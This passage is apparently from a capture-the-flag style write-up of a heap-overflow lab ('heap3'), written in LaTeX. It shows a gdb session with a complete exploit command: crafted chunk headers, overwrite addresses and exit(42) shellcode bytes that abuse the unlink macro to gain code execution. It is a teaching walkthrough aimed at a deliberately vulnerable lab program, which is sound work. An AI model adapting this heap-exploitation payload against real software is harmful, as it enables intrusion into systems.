 Here, I added two breakpoints to watch both precisely how my buffer is initially
placed in memory, and then how it's affected immediately after the
\texttt{unlink} macro is executed. We can see our \texttt{0xf0f0f0f0} was
overwritten with null bytes, but more importantly, we see that the
4 bytes of our shellcode starting at \texttt{0804c064} were clobbered
during the \texttt{unlink}. Continuing execution, we see that we
exit with status 052 in octal, which is 42 in decimal, demonstrating that
we now have code execution. Just to be clear, we can exploit the program again,
after having placed a breakpoint at main's return instruction, then
instruction-stepping into our shellcode.

\begin{lstlisting}
(gdb) r `python -c 'print("A"*32 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff")'` `python -c 'print("\x04\xc0\x04\x08"+"\x50\xf7\xff\xbf"+"\x5c\xc0\x04\x08")'` `python -c 'print("\xf0"*4+"\xeb\x0c\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80"+"\x90"*4)'`

Breakpoint 3, 0x0804893b in main (argc=134514825, argv=0x4) at heap3/heap3.c:29
29      in heap3/heap3.c
(gdb) si
0x0804c05c in ?? ()
(gdb) x/i 0x0804c05c
0x804c05c:      jmp    0x804c06a
(gdb) x/10i 0x0804c06a
0x804c06a:      xor    %eax,%eax
0x804c06c:      xor    %ebx,%ebx
0x804c06e:      mov    $0x2a,%bl
0x804c070:      mov    $0x1,%al
0x804c072:      int    $0x80
0x804c074:      nop
0x804c075:      nop
0x804c076:      nop
0x804c077:      nop
0x804c078:      add    %al,(%eax)
(gdb) c
Continuing.
dynamite failed?

Program exited with code 052.
\end{lstlisting}

We can plainly see that we jump to our shellcode. What we also notice
is that our shellcode performs a short (relative) jump to the standard
\texttt{exit(42)} shellcode from before. To fully complete the challenge,
we want to call to \texttt{winner} function, then clean up after ourselves
so that the program can exit normally. This is left as an excercise for the
reader.
